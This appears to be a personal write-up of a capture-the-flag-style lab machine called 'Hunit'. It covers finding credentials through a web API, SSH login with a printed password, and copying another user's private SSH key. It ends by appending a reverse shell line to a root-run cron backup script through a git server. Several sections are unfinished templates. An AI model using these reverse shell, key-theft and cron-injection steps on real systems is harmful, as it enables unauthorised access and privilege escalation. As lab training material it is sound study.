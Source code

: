 ```yaml
---
Alias: Hunit
Date: 6/1/2022
Platform: Linux
Difficulty: Intermediate
Tags:
Status: Finished
IP: 
---
```


# {{Hunit}}


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- nmap
- gobuster

---

# Information Gathering
Scanned all TCP ports:
```bash

```

Enumerated open TCP ports:
```bash

```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 80 - HTTP (Apache)

#### -Navigated to http://192.168.143.125:8080 and found the following web page and clicked on a link of a user's hauiku on the web page and right clicked and clicked "view page source" and found it had directory "/api"

![](Pasted%20image%2020221016220003.png)
![](Pasted%20image%2020221017173943.png)

#### -Navigated to "/api" directory and found the following and clicked "raw data" and found  directory "/user":

![](Pasted%20image%2020221017174047.png)

![](Pasted%20image%2020221017174142.png)

#### -Navigated to directory "/user" and found user login "dademola" listed as an admin:

![](Pasted%20image%2020221017174304.png)

---

# Exploitation
## Located user credentials in directory shown in websites source code

#### -As port 43022 was found earlier running on SSH I typed the following to login to ssh session with the found credentials above "ssh –p 43022 dademola@192.168.143.125" with password "ExplainSlowQuest110" and received shell:

![](Pasted%20image%2020221017174428.png)

---

# Privilege Escalation
## Local Enumeration
#### -Ran "lse.sh" and found cron job "crontab.bak" running as root and was readable and found the below contents of "crontab.bak" which file "pull.sh" and "backups.sh" was running every 2 and 3 minutes:

![](Pasted%20image%2020221017175014.png)
![](Pasted%20image%2020221017175126.png)

#### -Searched more and found directory "git-server" and found it being owned by "git" user and was git backend files which are difficult to work with so I navigated to "/tmp" directory and typed "git clone file:///git-server/" to clone the server into the "/tmp" directory:

![](Pasted%20image%2020221017175529.png)

![](Pasted%20image%2020221017175722.png)

#### -Now we can review the contents of "backups.sh" file which shows as a place holder file:

![](Pasted%20image%2020221017180046.png)

#### -Set up git identity by typing git config --global user.name "dademola" AND git config --global user.email "dademola@hunit.(none)"

![](Pasted%20image%2020221017180308.png)

#### -Typed "echo "touch /tmp/gitscript-test" >> backups.sh" and "chmod +x backups.sh" to inject a test instruction into the "backups.sh" file and to make it executable:

![](Pasted%20image%2020221017180606.png)

#### -But after receiving an error when trying to push the file onto the git-server and further investigation the server is owned by user "git":

#### -Found a user named "git" and found we have read and execute permissions on their ssh "id_rsa" file which is a private SSH Key:

![](Pasted%20image%2020221017180818.png)

![](Pasted%20image%2020221017180904.png)

#### -Navigate to my kali machine and typed "scp -P 43022 dademola@192.168.93.125:/home/git/.ssh/id_rsa ." to upload the private ssh key to my kali machine and "chmod 600" to set the correct permissions:

![](Pasted%20image%2020221017185135.png)

#### -Logged in to remote ssh session by typing "ssh -i id_rsa -p 43022 git@192.168.93.125" and found it to be a git-shell:

![](Pasted%20image%2020221017185623.png)
#GitShell

#### -Since this is a git-shell we should be able to interact with the git repository

#### -Typed "GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.93.125:/git-server" to clone git server onto my kali machine:

![](Pasted%20image%2020221017191609.png)

#### -Navigated into git-server and typed [git config --global user.name "kali"] and [git config --global user.email "kali@kali.(none)"] to setup git identity:

![](Pasted%20image%2020221017203812.png)

#### -Typed "echo "sh -i >& /dev/tcp/[kali IP]/8080 0>&1" >> backups.sh " to inject a reverse shell into the "backups.sh" file and typed "chmod +x to make it executable:

#### -Then typed "git add -A " and [git commit -m "pwn"] to commit the changes to the git-server:

![](Pasted%20image%2020221017204016.png)
![](Pasted%20image%2020221017204123.png)



## Privilege Escalation vector



---

# Trophy & Loot
user.txt

root.txt
